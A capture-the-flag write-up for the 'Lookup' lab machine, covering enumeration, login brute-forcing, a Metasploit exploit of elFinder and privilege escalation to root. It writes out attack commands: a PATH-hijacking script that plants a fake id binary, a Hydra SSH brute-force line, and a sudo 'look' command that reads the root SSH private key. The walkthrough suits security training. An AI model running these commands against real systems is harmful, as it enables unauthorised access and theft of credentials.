

# Lookup

## Nmap

I started the enumeration with **RustScan**, which quickly identified two open ports:

- `22` – SSH  
- `80` – HTTP  

After identifying the web service on port 80, the next step was to access it through the browser.



The IP address resolved to the domain **`lookup.thm`**, but loading the IP directly did not show the expected content. This indicated that the application was using **virtual host routing**.

To resolve this, the domain was mapped locally by adding the following entry to `/etc/hosts`:

```
<target_ip> lookup.thm
```

After adding the entry, the website became accessible via `http://lookup.thm`.

---

## Feroxbuster

Initial directory enumeration revealed only a single page:

```
login.php
```

Since this was the only visible entry point, further testing focused on the **login functionality**.


---

## Web Enumeration

The login page was the primary attack surface. Several **SQL injection payloads** were attempted, but they failed and produced error responses. Because the injection attempts did not succeed, the next step was **credential brute-forcing**.

Two tools were used during enumeration:

- **Hydra** – for credential brute forcing  
- **FFUF** – for fuzzing usernames and passwords  

First, attempts were made with the username `admin`, which returned **wrong password responses**, suggesting that the username might exist.

Using **FFUF** to brute force passwords eventually revealed a valid password:

```
password123
```

However, logging in with `admin:password123` produced a new error message:

```
Wrong username and password
```

This suggested that the **password was correct but the username was incorrect**.

Therefore, username fuzzing was performed using FFUF, which revealed a valid username:

```
jose
```

Working credentials:

```
jose : password123
```

After logging in successfully, the application dashboard became accessible.


---

## Subdomain Discovery

After logging in, a new subdomain was discovered:

```
files.lookup.thm
```

To access it, another entry was added to `/etc/hosts`:

```
<target_ip> files.lookup.thm
```

Once the subdomain was reachable, it revealed a **file management interface** containing many files.

Initially, every file was inspected manually, but none of them revealed useful information. This turned out to be a **rabbit hole**.

While inspecting the URL structure, the presence of **elFinder** was noticed. Researching the application showed that **elFinder is a web-based file manager**.

Further investigation revealed the exact **version of elFinder**, which allowed searching for known vulnerabilities.


---

## Exploitation

After identifying the vulnerable version of **elFinder**, a search for available exploits was performed. A suitable exploit was found in **Metasploit**.

Steps performed:

1. Launch Metasploit  
2. Search for the elFinder exploit module  
3. Configure the required parameters:
   - `RHOST`
   - `RPORT`
   - `TARGETURI`
   - `LHOST`
   - `LPORT`
4. Run the exploit

After successful execution, a **Meterpreter session** was obtained.


At this stage, a shell was obtained as:

```
www-data
```

---

## Post Exploitation

While exploring the system, two additional users were discovered:

```
think
root
```

To identify potential privilege escalation vectors, SUID binaries were enumerated using:

```bash
find / -perm -u=s -type f 2>/dev/null
```


During the enumeration process, an unusual binary was found:

```
/usr/sbin/pwm
```

This binary appeared to execute the `id` command internally.


---

## PATH Hijacking

Since the binary used the `id` command without specifying the full path, it was vulnerable to **PATH hijacking**.

A malicious `id` script was created:

```bash
echo '#!/bin/bash' > /tmp/id
echo 'echo "uid=33(think) gid=33(think) groups=(think)"' >> /tmp/id
chmod +x /tmp/id
```

Then the PATH variable was modified so that `/tmp` would be searched first:

```bash
export PATH=/tmp:$PATH
```

Running the vulnerable binary:

```bash
/usr/sbin/pwm
```

This caused the system to execute `/tmp/id` instead of the real `/usr/bin/id`.

As a result, the program revealed a hidden `.password` file containing password data.

---

## SSH Access

The extracted password list was transferred to the attack machine and used to brute force SSH access for the user **think**.

```bash
hydra -l think -P ~/thm/lookup/Password ssh://10.10.21.51
```


This successfully revealed the password for the **think** user.

Using the credentials, an SSH session was established.

---

## Privilege Escalation

Running `sudo -l` revealed that the **think** user could execute the following binary as root:

```
/usr/bin/look
```


The `look` command can be abused to read arbitrary files.

First, define a variable pointing to the root private key:

```bash
LFILE=/root/.ssh/id_rsa
```

Then execute:

```bash
sudo /usr/bin/look '' "$LFILE"
```

This command printed the contents of the **root SSH private key**.

With the private key obtained, SSH access as **root** became possible, completing the privilege escalation.

---

## Summary

Attack chain overview:

1. Port scan revealed **SSH and HTTP**
2. Virtual host `lookup.thm` discovered
3. Login page identified
4. Credentials enumerated (`jose : password123`)
5. Subdomain `files.lookup.thm` discovered
6. Vulnerable **elFinder** version identified
7. Exploited with **Metasploit**
8. Initial shell as **www-data**
9. PATH hijacking on `/usr/sbin/pwm`
10. Password extraction for **think**
11. SSH access as **think**
12. `sudo look` abused to read **root SSH key**
13. Root access obtained